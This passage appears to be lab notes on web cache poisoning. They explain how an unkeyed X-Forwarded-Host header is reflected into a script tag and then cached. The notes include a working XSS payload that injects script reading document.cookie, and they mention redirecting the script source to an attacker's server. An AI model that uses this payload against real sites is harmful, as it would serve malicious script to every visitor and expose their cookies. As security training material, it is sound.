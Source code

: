It's important to understand that `x-forwarded-host` header is `unkeyed` by the caching server, i.e. it is not included in the `key` that the cache uses when it decides if it already had the response cached.
The key on the caching server usually consists of url and host.

So we can add `X-Forwarded-Host` header to the request, and its value is reflected in the response html
So if we add `X-Forwarded-Host: VVVVV` to the request, we'll get the following response:
```bash
    <body>
        <script type="text/javascript" src="//VVVVV/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner is-solved'>
            ...
```

So we remove the cache buster from the request and add the following header:
```bash
X-Forwarded-Host: "></script><script>alert(document.cookie)</script>
```

And the response is cached by the caching server, but the response also contains our injected js code:
```bash
   <body>
        <script type="text/javascript" src="//"></script><script>alert(document.cookie)</script>/resources/js/tracking.js"></script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
            ...
```
So when users visit this page, they'll get the page from the poisoned cache and the js code will be executed

Interesting note: in this particular case the value of `X-Forwarded-Host` header is actually injected into the `<script type="text/javascript" src="/.. ` which means we can change the `src` attribute of the `script` and therefore can make victims to make requests to the server that we control

### Using web cache poisoning to exploit cookie-handling vulnerabilities
Cookies are often used to dynamically generate content in a response. A common example might be a cookie that indicates the user's preferred language, which is then used to load the corresponding version of the page:
```bash
GET /blog/post.php?mobile=1 HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
Cookie: language=pl;
Connection: close
```

In this example, the Polish version of a blog post is being requested. Notice that the information about which language version to serve is only contained in the Cookie header. Let's suppose that the cache key contains the request line and the Host header, but not the Cookie header. In this case, if the response to this request is cached, then all subsequent users who tried to access this blog post would receive the Polish version as well, regardless of which language they actually selected.
